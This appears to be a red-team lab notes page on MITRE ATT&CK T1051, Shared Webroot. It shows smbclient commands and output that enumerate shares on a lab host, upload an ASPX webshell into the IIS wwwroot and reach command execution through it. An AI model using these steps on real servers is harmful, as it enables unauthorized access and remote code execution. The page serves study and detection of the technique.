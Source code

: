 ```yaml
---
description: Lateral Movement
---
```


# T1051: Shared Webroot

## Execution

Enumerating victim host `10.0.0.6` for any shares:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
smbclient -L //10.0.0.6 -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	CertEnroll      Disk      Active Directory Certificate Services share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	temp            Disk      
	tools           Disk      
	transcripts     Disk      
	wwwroot         Disk      
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Logging in to the `wwwroot` share:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
smbclient //10.0.0.6/wwwroot -U spot

WARNING: The "syslog" option is deprecated
Enter WORKGROUP\spot's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 25 16:57:52 2018
  ..                                  D        0  Sat Aug 25 16:57:52 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Uploading a webshell into the `wwwroot`:

```csharp
put /usr/share/webshells/aspx/cmdasp.aspx c.aspx

putting file /usr/share/webshells/aspx/cmdasp.aspx as \c.aspx (341.8 kb/s) (average 341.8 kb/s)
smb: \> ls
  .                                   D        0  Sat Aug 25 16:59:47 2018
  ..                                  D        0  Sat Aug 25 16:59:47 2018
  aspnet_client                       D        0  Tue Jul 31 20:11:20 2018
  c.aspx                              A     1400  Sat Aug 25 16:59:47 2018
  iis-85.png                          A    99710  Tue Jul 31 19:35:48 2018
  iisstart.htm                        A        3  Tue Jul 31 19:38:23 2018

		6463487 blocks of size 4096. 3032260 blocks available
```

Same as above in a picture:

![](../.gitbook/assets/webroot-ownage.png)

Attacker can now access the newly uploaded webshell via `http://10.0.0.6/c.aspx` and start executing commands:

![](../.gitbook/assets/webroot-rce.png)

## Observations

See T1108: Webshells for observations:

{% page-ref page="t1108-redundant-access.md" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1051" %}


